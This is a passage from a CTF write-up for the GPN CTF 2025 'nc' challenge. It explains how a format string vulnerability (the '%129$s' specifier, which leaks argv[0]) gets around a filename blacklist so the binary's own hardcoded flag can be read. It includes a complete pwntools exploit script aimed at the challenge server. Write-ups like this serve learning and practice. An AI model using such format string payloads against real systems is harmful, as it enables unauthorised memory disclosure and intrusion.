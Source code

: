 ```c
}
```

The function ends by opening the specified file and reading its content.

As is known in Linux **EVERYHING** is a file; regular files, executables, directories, and even devices are files, why not leak the content of the **binnary itself** to get the **hardcoded flag.**

![Untitled](/CTF/gpnctf25-14.png)

![Untitled](/CTF/gpnctf25-15.png)

As expected, the **blacklist** targets characters that make up the **binary’s name**.

From here, I found two ways of **bypassing the sanitization**, both relying on the **format string vulnerability.**

<aside>
💡

What is a **format string vulnerability**?

A **format string vulnerability** is a type of security bug that occurs when an attacker is able to control the format string argument of a function like `printf`, `sprintf`, `snprintf`, or similar formatting functions in C/C++. You can learn more about format string vulnerabilities [here](https://owasp.org/www-community/attacks/Format_string_attack)

</aside>

### EASY WAY

Since **argv[0]** is a pointer to the **executable name** and the stack always has a reference to that pointer we could abuse the **format string specifiers** to bypass the sanitizer with **$s.**

```python
from pwn import *

exe = ELF("./nc")

context(arch='amd64', os='linux', log_level='debug', terminal=['tmux', 'splitw', '-h'])

def start(argv=[], *a, **kw):
    if args.GDB: # GDB
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return remote("mounttown-of-uncomfortably-powerful-unity.gpn23.ctf.kitctf.de", "443", ssl=True)
    
gdbscript = '''
disp/10i $rip
tb main
continue
'''.format(**locals())

io = start()

io.sendlineafter('Give me a file to read\n', f"%129$s\0")

leaks = set(io.clean().split())

for leak in leaks:
    if b'GPN' in leak:
        log.info(f'Leak: {leak}')
        break
io.interactive()
```
